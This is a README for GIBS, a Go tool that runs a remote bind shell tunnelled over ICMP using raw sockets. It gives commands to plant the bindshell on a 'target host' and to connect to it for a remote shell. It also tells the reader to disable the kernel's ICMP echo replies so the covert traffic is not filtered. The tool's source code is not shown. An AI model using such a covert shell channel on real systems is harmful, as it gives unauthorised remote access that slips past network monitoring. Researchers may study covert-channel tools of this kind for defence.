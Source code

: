 # GIBS

The **G**o **I**CMP **B**ind **S**hell is a remote bindshell tunneled over ICMP. Although, since this is ICMP, we use raw sockets. It technically doesn't "bind" to any port, and requires root privileges to run.

### Usage

Set up the bindshell on a target host:

```
sudo gibs -bind-shell
```

Open a remote shell:

```
sudo gibs -host 127.0.0.1'
```

**Important note:** Right now, you *must* have automatic echo replies turned off. This prevents networks and kernels from filtering our extra ICMP responses as "duplicates".
```
# on linux
echo 1 | sudo tee /proc/sys/net/ipv4/icmp_echo_ignore_all

# todo: how to turn this off on osx without blocking icmp altogether?
```
